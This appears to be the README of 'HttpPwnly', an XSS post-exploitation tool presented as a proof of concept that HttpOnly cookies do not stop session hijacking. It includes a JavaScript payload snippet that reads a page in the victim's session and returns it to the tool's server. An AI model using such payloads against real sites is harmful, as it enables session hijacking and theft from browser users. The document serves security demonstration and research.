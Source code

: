 # HttpPwnly

"Repeater" style XSS post-exploitation tool for mass browser control. Primarily a PoC to show why HttpOnly flag isn't a complete protection against session hijacking via XSS.

## Dependencies:
pip install flask flask_sqlalchemy flask_cors

## Demo:
https://www.youtube.com/watch?v=HQYzJKpBHjk

## Asynchronous payloads:
To overide normal task output data within your payload (for example in order to retrieve output from XMLHttpRequest), call the "sendOutput" function and pass it your intended output. For example:

```javascript
var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4 && xmlhttp.status == 200) {
      sendOutput(task.id,xmlhttp.responseText);
    }
  };
xmlhttp.open("GET", "/", true);
xmlhttp.send();
```
